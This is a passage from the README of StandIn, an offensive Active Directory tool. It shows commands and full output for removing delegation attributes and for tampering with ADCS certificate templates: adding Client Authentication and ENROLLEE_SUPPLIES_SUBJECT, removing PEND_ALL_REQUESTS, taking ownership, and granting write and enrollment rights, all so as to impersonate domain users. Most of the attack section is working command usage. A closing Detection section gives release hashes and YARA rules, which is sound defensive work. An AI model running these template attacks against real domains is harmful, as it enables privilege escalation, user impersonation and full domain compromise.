[?] Object   : CN=M-10-1909-03
    Path     : LDAP://CN=M-10-1909-03,OU=Workstations,OU=OCCULT,DC=main,DC=redhook,DC=local

[?] Iterating object properties

[+] logoncount
    |_ 107
[+] codepage
    |_ 0
[+] objectcategory
    |_ CN=Computer,CN=Schema,CN=Configuration,DC=main,DC=redhook,DC=local
[+] iscriticalsystemobject
    |_ False
[+] operatingsystem
    |_ Windows 10 Enterprise
[+] usnchanged
    |_ 195771
[+] instancetype
    |_ 4
[+] name
    |_ M-10-1909-03
[+] badpasswordtime
    |_ 7/9/2020 5:07:11 PM UTC
[+] pwdlastset
    |_ 10/29/2020 6:44:08 PM UTC
[+] serviceprincipalname
    |_ TERMSRV/M-10-1909-03
    |_ TERMSRV/m-10-1909-03.main.redhook.local
    |_ WSMAN/m-10-1909-03
    |_ WSMAN/m-10-1909-03.main.redhook.local
    |_ RestrictedKrbHost/M-10-1909-03
    |_ HOST/M-10-1909-03
    |_ RestrictedKrbHost/m-10-1909-03.main.redhook.local
    |_ HOST/m-10-1909-03.main.redhook.local
[+] objectclass
    |_ top
    |_ person
    |_ organizationalPerson
    |_ user
    |_ computer
[+] badpwdcount
    |_ 0
[+] samaccounttype
    |_ SAM_MACHINE_ACCOUNT
[+] lastlogontimestamp
    |_ 10/29/2020 12:29:26 PM UTC
[+] usncreated
    |_ 31127
[+] objectguid
    |_ c02cff97-4bfd-457c-a568-a748b0725c2f
[+] localpolicyflags
    |_ 0
[+] whencreated
    |_ 7/9/2020 5:05:08 PM
[+] adspath
    |_ LDAP://CN=M-10-1909-03,OU=Workstations,OU=OCCULT,DC=main,DC=redhook,DC=local
[+] useraccountcontrol
    |_ WORKSTATION_TRUST_ACCOUNT
[+] cn
    |_ M-10-1909-03
[+] countrycode
    |_ 0
[+] primarygroupid
    |_ 515
[+] whenchanged
    |_ 11/2/2020 7:55:14 PM
[+] operatingsystemversion
    |_ 10.0 (18363)
[+] dnshostname
    |_ m-10-1909-03.main.redhook.local
[+] dscorepropagationdata
    |_ 10/30/2020 6:56:30 PM
    |_ 10/30/2020 10:55:22 AM
    |_ 10/29/2020 4:58:51 PM
    |_ 10/29/2020 4:58:29 PM
    |_ 1/1/1601 12:00:01 AM
[+] lastlogon
    |_ 11/2/2020 9:07:20 AM UTC
[+] distinguishedname
    |_ CN=M-10-1909-03,OU=Workstations,OU=OCCULT,DC=main,DC=redhook,DC=local
[+] msds-supportedencryptiontypes
    |_ RC4_HMAC, AES128_CTS_HMAC_SHA1_96, AES256_CTS_HMAC_SHA1_96
[+] samaccountname
    |_ M-10-1909-03$
[+] objectsid
    |_ S-1-5-21-1293271031-3053586410-2290657902-1127
[+] lastlogoff
    |_ 0
[+] msds-allowedtoactonbehalfofotheridentity
    |_ BinLen           : 36
    |_ AceQualifier     : AccessAllowed
    |_ IsCallback       : False
    |_ OpaqueLength     : 0
    |_ AccessMask       : 983551
    |_ SID              : S-1-5-21-1293271031-3053586410-2290657902-1205
    |_ AceType          : AccessAllowed
    |_ AceFlags         : None
    |_ IsInherited      : False
    |_ InheritanceFlags : None
    |_ PropagationFlags : None
    |_ AuditFlags       : None
[+] accountexpires
    |_ 0x7FFFFFFFFFFFFFFF
```

### Remove msDS-AllowedToActOnBehalfOfOtherIdentity

#### Use Case

> *With write access to a machine object this function allows the operator to remove a previously added `msDS-AllowedToActOnBehalfOfOtherIdentity` property from the machine.*

#### Syntax

Remove previously created `msDS-AllowedToActOnBehalfOfOtherIdentity` property from a machine.

```
C:\> StandIn.exe --computer m-10-1909-03 --remove

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=M-10-1909-03
    Path     : LDAP://CN=M-10-1909-03,OU=Workstations,OU=OCCULT,DC=main,DC=redhook,DC=local
[+] msDS-AllowedToActOnBehalfOfOtherIdentity property removed..
```

## Active Directory Certificate Services (ADCS)

These are companion functions to [Certify](https://github.com/GhostPack/Certify). They can facilitate `template` attacks where the default template state is not usable out-of-the-box.

### List

#### Use Case

> *This function can enumerate all `domain CA's` and will list all `published templates`. Optionally you can wildcard `--filter` on the full template name or a portion of the name.*

#### Syntax

Search all published templates and, in this case, `filter` the output to return only templates matching `web`.

```
C:\>StandIn.exe --adcs --filter web

[+] Search Base  : LDAP://CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=redhook,DC=local

[>] Certificate Authority  : redhook-RH-DC01-CA
    |_ DNS Hostname        : RH-DC01.redhook.local
    |_ Cert DN             : CN=redhook-RH-DC01-CA, DC=redhook, DC=local
    |_ GUID                : e1885348-e2b3-4e02-9147-54c4c430bc53
    |_ Published Templates : CrossCA
                             DirectoryEmailReplication
                             DomainControllerAuthentication
                             KerberosAuthentication
                             EFSRecovery
                             EFS
                             DomainController
                             WebServer
                             Machine
                             User
                             SubCA
                             Administrator

[>] Publishing CA          : redhook-RH-DC01-CA
    |_ Template            : WebServer
    |_ Schema Version      : 1
    |_ pKIExpirationPeriod : 2 years
    |_ pKIOverlapPeriod    : 6 weeks
    |_ Enroll Flags        : NONE
    |_ Name Flags          : ENROLLEE_SUPPLIES_SUBJECT
    |_ pKIExtendedKeyUsage : Server Authentication
    |_ Owner               : REDHOOK\Enterprise Admins
    |_ Permission Identity : REDHOOK\Domain Admins
    |  |_ Type             : Allow
    |  |_ Permission       : CreateChild, DeleteChild, Self, WriteProperty, DeleteTree, Delete, GenericRead, WriteDacl, WriteOwner
    |  |_ Object           : ANY
    |_ Permission Identity : REDHOOK\Domain Users
    |  |_ Type             : Allow
    |  |_ Permission       : GenericAll
    |  |_ Object           : ANY
    |_ Permission Identity : REDHOOK\Enterprise Admins
    |  |_ Type             : Allow
    |  |_ Permission       : CreateChild, DeleteChild, Self, WriteProperty, DeleteTree, Delete, GenericRead, WriteDacl, WriteOwner
    |  |_ Object           : ANY
    |_ Permission Identity : REDHOOK\Domain Admins
    |  |_ Type             : Allow
    |  |_ Permission       : ReadProperty, WriteProperty, ExtendedRight
    |  |_ Object           : Certificate-Enrollment
    |_ Permission Identity : REDHOOK\Enterprise Admins
    |  |_ Type             : Allow
    |  |_ Permission       : ReadProperty, WriteProperty, ExtendedRight
    |  |_ Object           : Certificate-Enrollment
    |_ Created             : 11/24/2021 4:37:30 PM
    |_ Modified            : 11/29/2021 1:57:16 PM
```

### Client Authentication

#### Use Case

> *In order to be able to generate certificates which can be used to impersonate Domain users, the certificate template `pKIExtendedKeyUsage` property has to contain the `Client Authentication` flag. With the appropriate `object permissions` this function allows the operator to add or remove that flag from the template.*

#### Syntax

Add/remove `Client Authentication` flag from the `WebServer` template. Here the `--filter` flag has to match the template name exactly.

```
C:\>StandIn.exe --adcs --filter WebServer --clientauth --add

[+] Search Base  : LDAP://CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=redhook,DC=local

[>] Publishing CA          : redhook-RH-DC01-CA
    |_ Template            : WebServer
    |_ Enroll Flags        : NONE
    |_ Name Flags          : ENROLLEE_SUPPLIES_SUBJECT
    |_ pKIExtendedKeyUsage : Server Authentication
    |_ Created             : 11/24/2021 4:37:30 PM
    |_ Modified            : 11/29/2021 2:40:06 PM

[+] Adding pKIExtendedKeyUsage : Client Authentication
    |_ Success

C:\>StandIn.exe --adcs --filter WebServer --clientauth --remove

[+] Search Base  : LDAP://CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=redhook,DC=local

[>] Publishing CA          : redhook-RH-DC01-CA
    |_ Template            : WebServer
    |_ Enroll Flags        : NONE
    |_ Name Flags          : ENROLLEE_SUPPLIES_SUBJECT
    |_ pKIExtendedKeyUsage : Client Authentication
    |                        Server Authentication
    |_ Created             : 11/24/2021 4:37:30 PM
    |_ Modified            : 11/29/2021 1:57:16 PM

[+] Removing pKIExtendedKeyUsage : Client Authentication
    |_ Success
```

### ENROLLEE_SUPPLIES_SUBJECT

#### Use Case

> *In order to be able to provide an arbitrary user identity when making certificate requests, the certificate template `msPKI-Certificate-Name-Flag` property has to contain the `ENROLLEE_SUPPLIES_SUBJECT` flag. With the appropriate `object permissions` this function allows the operator to add or remove that flag from the template.*

#### Syntax

Add/remove `ENROLLEE_SUPPLIES_SUBJECT` flag from the `WebServer` template. Here the `--filter` flag has to match the template name exactly.

```
C:\>StandIn.exe --adcs --filter WebServer --ess --add

[+] Search Base  : LDAP://CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=redhook,DC=local

[>] Publishing CA          : redhook-RH-DC01-CA
    |_ Template            : WebServer
    |_ Enroll Flags        : NONE
    |_ Name Flags          : 0
    |_ pKIExtendedKeyUsage : Client Authentication
    |                        Server Authentication
    |_ Created             : 11/24/2021 4:37:30 PM
    |_ Modified            : 11/29/2021 2:50:34 PM

[+] Adding msPKI-Certificate-Name-Flag : ENROLLEE_SUPPLIES_SUBJECT
    |_ Success

C:\>StandIn.exe --adcs --filter WebServer --ess --remove

[+] Search Base  : LDAP://CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=redhook,DC=local

[>] Publishing CA          : redhook-RH-DC01-CA
    |_ Template            : WebServer
    |_ Enroll Flags        : NONE
    |_ Name Flags          : ENROLLEE_SUPPLIES_SUBJECT
    |_ pKIExtendedKeyUsage : Client Authentication
    |                        Server Authentication
    |_ Created             : 11/24/2021 4:37:30 PM
    |_ Modified            : 11/29/2021 2:40:08 PM

[+] Removing msPKI-Certificate-Name-Flag : ENROLLEE_SUPPLIES_SUBJECT
    |_ Success
```

### PEND_ALL_REQUESTS

#### Use Case

> *When the certificate template `msPKI-Enrollment-Flag` property contains the `PEND_ALL_REQUESTS` flag then all certificate requests are queued into a `pending` state and the `CA Certificate Manager` will have to approve those requests. This is not desirable from an attacker perspective. With the appropriate `object permissions` this function allows the operator to add or remove that flag from the template.*

#### Syntax

Add/remove `PEND_ALL_REQUESTS` flag from the `WebServer` template. Here the `--filter` flag has to match the template name exactly.

```
C:\>StandIn.exe --adcs --filter WebServer --pend --remove

[+] Search Base  : LDAP://CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=redhook,DC=local

[>] Publishing CA          : redhook-RH-DC01-CA
    |_ Template            : WebServer
    |_ Enroll Flags        : PEND_ALL_REQUESTS
    |_ Name Flags          : ENROLLEE_SUPPLIES_SUBJECT
    |_ pKIExtendedKeyUsage : Client Authentication
    |                        Server Authentication
    |_ Created             : 11/24/2021 4:37:30 PM
    |_ Modified            : 11/29/2021 2:54:51 PM

[+] Removing msPKI-Enrollment-Flag : PEND_ALL_REQUESTS
    |_ Success

C:\>StandIn.exe --adcs --filter WebServer --pend --add

[+] Search Base  : LDAP://CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=redhook,DC=local

[>] Publishing CA          : redhook-RH-DC01-CA
    |_ Template            : WebServer
    |_ Enroll Flags        : NONE
    |_ Name Flags          : ENROLLEE_SUPPLIES_SUBJECT
    |_ pKIExtendedKeyUsage : Client Authentication
    |                        Server Authentication
    |_ Created             : 11/24/2021 4:37:30 PM
    |_ Modified            : 11/29/2021 2:50:37 PM

[+] Adding msPKI-Enrollment-Flag : PEND_ALL_REQUESTS
    |_ Success
```

### Change Owner

#### Use Case

> *In some special cases the operator may have `WriteOwner` permissions on the `template object`. Where other attacks are not possible, the operator can change the owner of the template which will grant the new owner `GenericAll` permissions over the template. This attack is not very desirable, see `caveats`.*

#### Syntax

Set the `Owner` of the `template object` to `REDHOOK\MBWillett`. Here the `--filter` flag has to match the template name exactly.

```
C:\>StandIn.exe --adcs --filter WebServer --ntaccount "REDHOOK\MBWillett" --owner

[+] Search Base  : LDAP://CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=redhook,DC=local

[>] Publishing CA          : redhook-RH-DC01-CA
    |_ Template            : WebServer
    |_ Enroll Flags        : NONE
    |_ Name Flags          : ENROLLEE_SUPPLIES_SUBJECT
    |_ pKIExtendedKeyUsage : Client Authentication
    |                        Server Authentication
    |_ Created             : 11/24/2021 4:37:30 PM
    |_ Modified            : 11/29/2021 2:58:19 PM

[+] Set object access rules

[+] Changing template owner : REDHOOK\MBWillett
    |_ Success

C:\>StandIn.exe --adcs --filter WebServer

[+] Search Base  : LDAP://CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=redhook,DC=local

[>] Certificate Authority  : redhook-RH-DC01-CA
    |_ DNS Hostname        : RH-DC01.redhook.local
    |_ Cert DN             : CN=redhook-RH-DC01-CA, DC=redhook, DC=local
    |_ GUID                : e1885348-e2b3-4e02-9147-54c4c430bc53
    |_ Published Templates : CrossCA
                             DirectoryEmailReplication
                             DomainControllerAuthentication
                             KerberosAuthentication
                             EFSRecovery
                             EFS
                             DomainController
                             WebServer
                             Machine
                             User
                             SubCA
                             Administrator

[>] Publishing CA          : redhook-RH-DC01-CA
    |_ Template            : WebServer
    |_ Schema Version      : 1
    |_ pKIExpirationPeriod : 2 years
    |_ pKIOverlapPeriod    : 6 weeks
    |_ Enroll Flags        : NONE
    |_ Name Flags          : ENROLLEE_SUPPLIES_SUBJECT
    |_ pKIExtendedKeyUsage : Client Authentication
    |                        Server Authentication
    |_ Owner               : REDHOOK\MBWillett
    |_ Permission Identity : REDHOOK\Domain Admins
    |  |_ Type             : Allow
    |  |_ Permission       : CreateChild, DeleteChild, Self, WriteProperty, DeleteTree, Delete, GenericRead, WriteDacl, WriteOwner
    |  |_ Object           : ANY
    |_ Permission Identity : REDHOOK\Domain Users
    |  |_ Type             : Allow
    |  |_ Permission       : GenericAll
    |  |_ Object           : ANY
    |_ Permission Identity : REDHOOK\Enterprise Admins
    |  |_ Type             : Allow
    |  |_ Permission       : CreateChild, DeleteChild, Self, WriteProperty, DeleteTree, Delete, GenericRead, WriteDacl, WriteOwner
    |  |_ Object           : ANY
    |_ Permission Identity : REDHOOK\Domain Admins
    |  |_ Type             : Allow
    |  |_ Permission       : ReadProperty, WriteProperty, ExtendedRight
    |  |_ Object           : Certificate-Enrollment
    |_ Permission Identity : REDHOOK\Enterprise Admins
    |  |_ Type             : Allow
    |  |_ Permission       : ReadProperty, WriteProperty, ExtendedRight
    |  |_ Object           : Certificate-Enrollment
    |_ Created             : 11/24/2021 4:37:30 PM
    |_ Modified            : 11/29/2021 3:05:45 PM
```

#### Caveats

This attack comes with some extra constraints. In lab testing I found that when a `user context` had the `WriteOwner` privilege then that user could `only change the Owner to themselves` providing any other user identity caused the request to fail. Additionally, once changed, the owner could not be reverted to it's old sate unless executing from an `Enterprise Admins` context.

These restraints make this attack undesirable, it should only be used if no other options are available. In order to revert back to the old `Owner` the operator can generate a certificate for an `Enterprise Admins` user and use that the change the owner back.

```
# WebServer owned by REDHOOK\MBWillett & executing as "REDHOOK\MBWillett"
C:\>StandIn.exe --adcs --filter WebServer --ntaccount "REDHOOK\Enterprise Admins" --owner

[+] Search Base  : LDAP://CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=redhook,DC=local

[>] Publishing CA          : redhook-RH-DC01-CA
    |_ Template            : WebServer
    |_ Enroll Flags        : NONE
    |_ Name Flags          : ENROLLEE_SUPPLIES_SUBJECT
    |_ pKIExtendedKeyUsage : Client Authentication
    |                        Server Authentication
    |_ Created             : 11/24/2021 4:37:30 PM
    |_ Modified            : 11/29/2021 4:18:21 PM

[+] Set object access rules

[+] Changing template owner : REDHOOK\Enterprise Admins
[!] Failed to modify ADCS permissions..
    |_ A constraint violation occurred.

# WebServer owned by REDHOOK\MBWillett & executing in "REDHOOK\Enterprise Admins" context
C:\>StandIn.exe --adcs --filter WebServer --ntaccount "REDHOOK\Enterprise Admins" --owner

[+] Search Base  : LDAP://CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=redhook,DC=local

[>] Publishing CA          : redhook-RH-DC01-CA
    |_ Template            : WebServer
    |_ Enroll Flags        : NONE
    |_ Name Flags          : ENROLLEE_SUPPLIES_SUBJECT
    |_ pKIExtendedKeyUsage : Client Authentication
    |                        Server Authentication
    |_ Created             : 11/24/2021 4:37:30 PM
    |_ Modified            : 11/29/2021 3:05:45 PM

[+] Set object access rules

[+] Changing template owner : REDHOOK\Enterprise Admins
    |_ Success
```

### Add Write Permission

#### Use Case

> *Template write permissions may be necessary to perform some of the other outlined `template attacks`. With the appropriate `object permissions` this function allows the operator to add or remove `WriteDacl` / `WriteOwner` / `WriteProperty` permissions from an `NtAccount` on the `template object`.*

#### Syntax

Add/remove `Write` permissions over the `WebServer` template for `REDHOOK\MBWillett`. Here the `--filter` flag has to match the template name exactly.

```
C:\>StandIn.exe --adcs --filter WebServer --ntaccount "REDHOOK\MBWillett" --write --add

[+] Search Base  : LDAP://CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=redhook,DC=local

[>] Publishing CA          : redhook-RH-DC01-CA
    |_ Template            : WebServer
    |_ Enroll Flags        : NONE
    |_ Name Flags          : ENROLLEE_SUPPLIES_SUBJECT
    |_ pKIExtendedKeyUsage : Client Authentication
    |                        Server Authentication
    |_ Created             : 11/24/2021 4:37:30 PM
    |_ Modified            : 11/29/2021 3:15:44 PM

[+] Set object access rules

[+] Adding write permissions : REDHOOK\MBWillett
    |_ Success

C:\>StandIn.exe --adcs --filter WebServer

[+] Search Base  : LDAP://CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=redhook,DC=local

[>] Certificate Authority  : redhook-RH-DC01-CA
    |_ DNS Hostname        : RH-DC01.redhook.local
    |_ Cert DN             : CN=redhook-RH-DC01-CA, DC=redhook, DC=local
    |_ GUID                : e1885348-e2b3-4e02-9147-54c4c430bc53
    |_ Published Templates : CrossCA
                             DirectoryEmailReplication
                             DomainControllerAuthentication
                             KerberosAuthentication
                             EFSRecovery
                             EFS
                             DomainController
                             WebServer
                             Machine
                             User
                             SubCA
                             Administrator

[>] Publishing CA          : redhook-RH-DC01-CA
    |_ Template            : WebServer
    |_ Schema Version      : 1
    |_ pKIExpirationPeriod : 2 years
    |_ pKIOverlapPeriod    : 6 weeks
    |_ Enroll Flags        : NONE
    |_ Name Flags          : ENROLLEE_SUPPLIES_SUBJECT
    |_ pKIExtendedKeyUsage : Client Authentication
    |                        Server Authentication
    |_ Owner               : REDHOOK\Enterprise Admins
    |_ Permission Identity : REDHOOK\Domain Admins
    |  |_ Type             : Allow
    |  |_ Permission       : CreateChild, DeleteChild, Self, WriteProperty, DeleteTree, Delete, GenericRead, WriteDacl, WriteOwner
    |  |_ Object           : ANY
    |_ Permission Identity : REDHOOK\Domain Users
    |  |_ Type             : Allow
    |  |_ Permission       : GenericAll
    |  |_ Object           : ANY
    |_ Permission Identity : REDHOOK\Enterprise Admins
    |  |_ Type             : Allow
    |  |_ Permission       : CreateChild, DeleteChild, Self, WriteProperty, DeleteTree, Delete, GenericRead, WriteDacl, WriteOwner
    |  |_ Object           : ANY
    |_ Permission Identity : REDHOOK\MBWillett
    |  |_ Type             : Allow
    |  |_ Permission       : WriteProperty, WriteDacl, WriteOwner
    |  |_ Object           : ANY
    |_ Permission Identity : REDHOOK\Domain Admins
    |  |_ Type             : Allow
    |  |_ Permission       : ReadProperty, WriteProperty, ExtendedRight
    |  |_ Object           : Certificate-Enrollment
    |_ Permission Identity : REDHOOK\Enterprise Admins
    |  |_ Type             : Allow
    |  |_ Permission       : ReadProperty, WriteProperty, ExtendedRight
    |  |_ Object           : Certificate-Enrollment
    |_ Created             : 11/24/2021 4:37:30 PM
    |_ Modified            : 11/29/2021 3:29:36 PM

C:\>StandIn.exe --adcs --filter WebServer --ntaccount "REDHOOK\MBWillett" --write --remove

[+] Search Base  : LDAP://CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=redhook,DC=local

[>] Publishing CA          : redhook-RH-DC01-CA
    |_ Template            : WebServer
    |_ Enroll Flags        : NONE
    |_ Name Flags          : ENROLLEE_SUPPLIES_SUBJECT
    |_ pKIExtendedKeyUsage : Client Authentication
    |                        Server Authentication
    |_ Created             : 11/24/2021 4:37:30 PM
    |_ Modified            : 11/29/2021 3:29:36 PM

[+] Set object access rules

[+] Removing write permissions : REDHOOK\MBWillett
    |_ Success
```

### Add Certificate-Enrollment Permission

#### Use Case

> *To be able to request `template certificates` the `requestor` has to have `Certificate-Enrollment` permissions. With the appropriate `object permissions` this function allows the operator to add or remove `Certificate-Enrollment` permissions from an `NtAccount` on the `template object`.*

#### Syntax

Add/remove `Certificate-Enrollment` permissions on the `WebServer` template for `REDHOOK\MBWillett`. Here the `--filter` flag has to match the template name exactly.

```
C:\>StandIn.exe --adcs --filter WebServer --ntaccount "REDHOOK\MBWillett" --enroll --add

[+] Search Base  : LDAP://CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=redhook,DC=local

[>] Publishing CA          : redhook-RH-DC01-CA
    |_ Template            : WebServer
    |_ Enroll Flags        : NONE
    |_ Name Flags          : ENROLLEE_SUPPLIES_SUBJECT
    |_ pKIExtendedKeyUsage : Client Authentication
    |                        Server Authentication
    |_ Created             : 11/24/2021 4:37:30 PM
    |_ Modified            : 11/29/2021 3:29:57 PM

[+] Set object access rules

[+] Adding Certificate-Enrollment permission : REDHOOK\MBWillett
    |_ Success

C:\>StandIn.exe --adcs --filter WebServer

[+] Search Base  : LDAP://CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=redhook,DC=local

[>] Certificate Authority  : redhook-RH-DC01-CA
    |_ DNS Hostname        : RH-DC01.redhook.local
    |_ Cert DN             : CN=redhook-RH-DC01-CA, DC=redhook, DC=local
    |_ GUID                : e1885348-e2b3-4e02-9147-54c4c430bc53
    |_ Published Templates : CrossCA
                             DirectoryEmailReplication
                             DomainControllerAuthentication
                             KerberosAuthentication
                             EFSRecovery
                             EFS
                             DomainController
                             WebServer
                             Machine
                             User
                             SubCA
                             Administrator

[>] Publishing CA          : redhook-RH-DC01-CA
    |_ Template            : WebServer
    |_ Schema Version      : 1
    |_ pKIExpirationPeriod : 2 years
    |_ pKIOverlapPeriod    : 6 weeks
    |_ Enroll Flags        : NONE
    |_ Name Flags          : ENROLLEE_SUPPLIES_SUBJECT
    |_ pKIExtendedKeyUsage : Client Authentication
    |                        Server Authentication
    |_ Owner               : REDHOOK\Enterprise Admins
    |_ Permission Identity : REDHOOK\Domain Admins
    |  |_ Type             : Allow
    |  |_ Permission       : CreateChild, DeleteChild, Self, WriteProperty, DeleteTree, Delete, GenericRead, WriteDacl, WriteOwner
    |  |_ Object           : ANY
    |_ Permission Identity : REDHOOK\Domain Users
    |  |_ Type             : Allow
    |  |_ Permission       : GenericAll
    |  |_ Object           : ANY
    |_ Permission Identity : REDHOOK\Enterprise Admins
    |  |_ Type             : Allow
    |  |_ Permission       : CreateChild, DeleteChild, Self, WriteProperty, DeleteTree, Delete, GenericRead, WriteDacl, WriteOwner
    |  |_ Object           : ANY
    |_ Permission Identity : REDHOOK\Domain Admins
    |  |_ Type             : Allow
    |  |_ Permission       : ReadProperty, WriteProperty, ExtendedRight
    |  |_ Object           : Certificate-Enrollment
    |_ Permission Identity : REDHOOK\Enterprise Admins
    |  |_ Type             : Allow
    |  |_ Permission       : ReadProperty, WriteProperty, ExtendedRight
    |  |_ Object           : Certificate-Enrollment
    |_ Permission Identity : REDHOOK\MBWillett
    |  |_ Type             : Allow
    |  |_ Permission       : ExtendedRight
    |  |_ Object           : Certificate-Enrollment
    |_ Created             : 11/24/2021 4:37:30 PM
    |_ Modified            : 11/29/2021 3:38:36 PM

C:\>StandIn.exe --adcs --filter WebServer --ntaccount "REDHOOK\MBWillett" --enroll --remove

[+] Search Base  : LDAP://CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=redhook,DC=local

[>] Publishing CA          : redhook-RH-DC01-CA
    |_ Template            : WebServer
    |_ Enroll Flags        : NONE
    |_ Name Flags          : ENROLLEE_SUPPLIES_SUBJECT
    |_ pKIExtendedKeyUsage : Client Authentication
    |                        Server Authentication
    |_ Created             : 11/24/2021 4:37:30 PM
    |_ Modified            : 11/29/2021 3:38:36 PM

[+] Set object access rules

[+] Removing Certificate-Enrollment permission : REDHOOK\MBWillett
    |_ Success
```

## Detection

This section outlines a number of IOC's which can aid in the detection engineering process for StandIn.

#### Release Package Hashes

The following table maps the release package hashes for StandIn.

```
-=v1.3=-
StandIn_Net35.exe    SHA256: C2ACD3667483E5AC1E423E482DBA462E96DA3978776BFED07D9B436FEE135AB2
                        MD5: 5E9364F46723B7DC5FF24DE6E9C69E76

StandIn_Net45.exe    SHA256: 2E37A3D2DC2ECB0BD026C93055A71CAB4E568B062B1C9F7B8846E04DF1E9F3E6
                        MD5: 566FFA0555E81560407B8CE6E458E829

-=v1.2=-
StandIn_Net35.exe    SHA256: DCCDA4991BEBC5F2399C47C798981E7828ECC2BA77ED52A1D37BD866AD5582AA
                        MD5: D11A8CC4768221CEB5A128A349C5E094

StandIn_Net45.exe    SHA256: 24C53132B594B77D2109CAEE3E276EA4603EEF32BFECD5121746DB58258C50F7
                        MD5: DA2AFD1868FBEB9357C8D0FD62ED97EB

-=v0.8=-
StandIn_Net35.exe    SHA256: A0B3C96CA89770ED04E37D43188427E0016B42B03C0102216C5F6A785B942BD3
                        MD5: 8C942EE4553E40A7968FF0C8DC5DB9AB

StandIn_Net45.exe    SHA256: F80AEB33FC53F2C8D6313A6B20CD117739A71382C208702B43073D54C9ACA681
                        MD5: 9E0FC3159A6BF8C3A8A0FAA76F6F74F9

-=v0.7=-
StandIn_Net35.exe    SHA256: A1ECD50DA8AAE5734A5F5C4A6A951B5F3C99CC4FB939AC60EF5EE19896CA23A0
                        MD5: 50D29F7597BF83D80418DEEFD360F093

StandIn_Net45.exe    SHA256: DBAB7B9CC694FC37354E3A18F9418586172ED6660D8D205EAFFF945525A6A31A
                        MD5: 4E5258A876ABCD2CA2EF80E0D5D93195
```

#### Yara

The following Yara rules can be used to detect StandIn on disk, in it's default form.

```js
rule StandIn
{
    meta:
        author = "Ruben Boonen (@FuzzySec)"
        description = "Detect StandIn string constants."

    strings:
        $s1 = "StandIn" ascii wide nocase
        $s2 = "(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2))" ascii wide nocase
        $s3 = "msDS-AllowedToActOnBehalfOfOtherIdentity" ascii wide nocase
        $s4 = ">--~~--> Args? <--~~--<" ascii wide nocase

    condition:
        all of ($s*)
}

rule StandIn_PDB
{
    meta:
        author = "Ruben Boonen (@FuzzySec)"
        description = "Detect StandIn default PDB."

    strings:
        $s1 = "\\Release\\StandIn.pdb" ascii wide nocase
	
    condition:
        all of ($s*)
}
```

#### SilktETW Microsoft-Windows-DotNETRuntime Yara Rule

The Yara rule below can be used to detect StandIn when execution happens from memory. To use this rule, the EDR solution will require access to the `Microsoft-Windows-DotNETRuntime` ETW data provider. For testing purposes, this rule can be directly evaluated using [SilkETW](https://github.com/fireeye/SilkETW). It should be noted that this is a generic example rule, production alerting would required a more granular approach.

```js
rule Silk_StandIn_Generic
{
    meta:
        author = "Ruben Boonen (@FuzzySec)"
        description = "Generic Microsoft-Windows-DotNETRuntime detection for StandIn."

    strings:
        $s1 = "\\r\\nFullyQualifiedAssemblyName=0;\\r\\nClrInstanceID=StandIn" ascii wide nocase
        $s2 = "MethodFlags=Jitted;\\r\\nMethodNamespace=StandIn." ascii wide nocase

    condition:
        any of them
}
```



## Special Thanks

I just want to give a quick shout-out to people who have contributed code and/or bugfixes to `StandIn`.

[@G0ldenGunSec](https://twitter.com/G0ldenGunSec), [@matterpreter](https://twitter.com/matterpreter), [guervild](https://github.com/guervild)